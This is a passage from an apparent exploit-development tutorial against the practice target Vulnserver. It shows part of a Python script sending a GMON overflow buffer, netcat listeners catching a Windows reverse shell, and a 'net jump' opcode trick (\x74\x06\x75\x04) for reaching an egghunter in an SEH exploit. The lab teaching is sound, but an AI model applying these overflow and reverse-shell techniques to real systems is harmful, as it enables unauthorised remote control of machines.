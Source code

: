 ```python
print s.recv(1024)
s.send("GMON /.../" + buffer)
print s.recv(1024)
s.close()
```

When we run this code against Vulnserver unattached to Immunity, we net our reverse shell, very cool. 

```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                 
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.199] from (UNKNOWN) [192.168.1.201] 49171
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```

## Net Jumping Thanks to OJ

As OJ REEVES (aka @TheColonial) points out in his fantastic blogpost on [Jumping With Badcharacters](https://buffered.io/posts/jumping-with-bad-chars/), this type of approach where we attempt to satisfy a condition and then use the requisite conditional jump can be complicated. Sometimes we won't have enough space to operate, sometimes we will have to make assumptions about other flags that may or may not be true. So OJ describes a different approach which will meet criteria no matter what. 

OJ presents this as if it's boring and unclever, but I was quite tickled at how cool it is. Basically if a condition can be either True or False, we can just account for both contingencies by placing opcodes for 'Jump if True' and 'Jump if False' side by side. If the condition is False, and the instruction pointer comes to this 'Jump if True' opcode, the opcode will simply be passed over without executing the jump. The instruction pointer will then grace our 'Jump if False' opcode and the condition will be met and the jump will execute!

OJ gives several examples of conditional short-jump codes that can be used in what he calls a 'Net Jump'. Let's try out the Zero Flag family of conditional jumps and see the technique in action. 

Since we don't really know what state the flags will be in when we reach our jumpcode, we can account for the Zero flag being set and unset by juxtaposing the opcodes `\x74` (`JZ`) and `\x75` (`JNZ`) respectively. The first jumpcode will have a distance of 6 bytes because if its condition is met, it will have to clear our second contigency (2 bytes) and the other SEH component (4 bytes). If the second jumpcode condition is met, it will only have to travel over the other SEH component (4 bytes) to reach our egghunter. 

So let's put this into our exploit by once more modifying our `nSeh` variable to `'\x74\x06\x75\x04'`. 

Running our exploit code against Vulnserver again nets us our reverse shell!

```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.199] from (UNKNOWN) [192.168.1.201] 49172
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```
